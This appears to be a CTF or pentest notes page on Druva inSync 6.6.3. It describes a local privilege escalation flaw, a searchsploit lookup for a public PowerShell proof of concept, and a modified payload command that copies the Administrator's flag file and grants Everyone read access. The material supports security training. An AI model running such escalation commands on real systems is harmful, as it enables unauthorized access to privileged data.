 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Druva

## 101

Druva is a **cloud-based data protection platform** that provides backup, recovery, and data management services for endpoints, servers, and cloud applications. **Druva inSync is the Windows endpoint backup client**—an agent installed on devices to securely back up data to Druva’s cloud. Essentially, Druva inSync acts as the local software component enabling Druva’s cloud service to protect endpoint data.

## Attacks

The Druva inSync `6.6.3` vulnerability is a **local privilege escalation (LPE)** flaw due to insecure handling of permissions or improperly protected components within the Druva inSync client software.

{% code overflow="wrap" %}
```bash
$ searchsploit Druva 6.6.3

Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell) | windows/local/49211.ps1
```
{% endcode %}

The PoC can be modified for CTF purposes:

{% code overflow="wrap" %}
```bash
# Modified code
$cmd = "type C:\Users\Administrator\desktop\flag.txt > C:\Windows\Temp\flag.txt && icacls C:\Windows\Temp\flag.txt /grant Everyone:R /T /C /Q"
```
{% endcode %}
